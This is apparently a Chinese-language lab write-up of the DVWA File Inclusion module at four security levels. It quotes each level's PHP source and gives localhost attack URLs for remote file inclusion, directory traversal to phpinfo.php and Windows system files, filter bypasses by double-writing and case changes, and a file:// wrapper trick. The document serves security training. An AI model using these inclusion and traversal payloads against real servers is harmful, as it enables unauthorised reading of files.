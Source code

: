 ```yaml
---
layout: post
title: "DVWA File Inclusion (教學用)"
description: ""
date: 2023-07-11
categories:
  - DVWA
  - DVWA_File_Inclusion
author: ""
tags: ['DVWA', 'File_Inclusion']
---
```




#  DVWA File Inclusion (教學用)
###### tags: `DVWA`

## low


URL:
```
http://localhost/vulnerabilities/fi/?page=include.php
```




引入外部檔案
```
http://localhost/vulnerabilities/fi/?page=https://www.ea.com/zh-tw/games/apex-legends
```


目錄遍歷(我這邊自己在根目錄放了一個phpinfo.php )
```
http://localhost/vulnerabilities/fi/?page=../../phpinfo.php






../../../../c:\windows\system32\license.rtf
```

猜測大概就是 inlcude 或是 require 一個網頁。

* 差別:
include 引入文件的時候，如果碰到錯誤，會給出提示，並繼續運行下邊的代碼。
require 引入文件的時候，如果碰到錯誤，會給出提示，並停止運行下邊的代碼。




### low.php
```php!
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```


### index.php
```php
// if( count( $_GET ) )
if( isset( $file ) )
	include( $file );
else {
	header( 'Location:?page=include.php' );
	exit;
}

dvwaHtmlEcho( $page );

```

沒有任何過濾。



## medium



### code:
```php!

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

加上了一些過濾，不過都可以繞過


引入外部檔案
```
original
http://localhost/vulnerabilities/fi/?page=https://www.ea.com/zh-tw/games/apex-legends




雙寫:
http://localhost/vulnerabilities/fi/?page=hhttps://ttps://www.ea.com/zh-tw/games/apex-legends



大寫:
http://localhost/vulnerabilities/fi/?page=Https://www.ea.com/zh-tw/games/apex-legends


```


目錄遍歷(我這邊自己在根目錄放了一個phpinfo.php )
```
雙寫:
http://localhost/vulnerabilities/fi/?page=....//....//phpinfo.php


http://localhost/vulnerabilities/fi/?page=..../\..../\phpinfo.php


```




版本確認文件
```
c:\windows\system32\license.rtf

http://localhost/vulnerabilities/fi/?page=../../../../../../windows/system32/license.rtf

出現一堆文字把他copy 儲存為 xxx.rtf 就可以



c:\windows\system32\eula.txt

http://localhost/vulnerabilities/fi/?page=../../../../../../windows\system32\eula.txt

```


有時候你 url encode double encode 都可以幫你。


## high
```php!
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

白名單

一定要 file 開頭的
或是include.php


所以我們只能從 file 下手

本地文件協議:

```
http://localhost/vulnerabilities/fi/?page=file:///C:/Users/xxx/Desktop/DVWA-master/phpinfo.php
```
成功。


還有很多偽協議的騷操作，我之前做過，這邊就不舉例了。







### impossible


直接白名單
```php!
?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```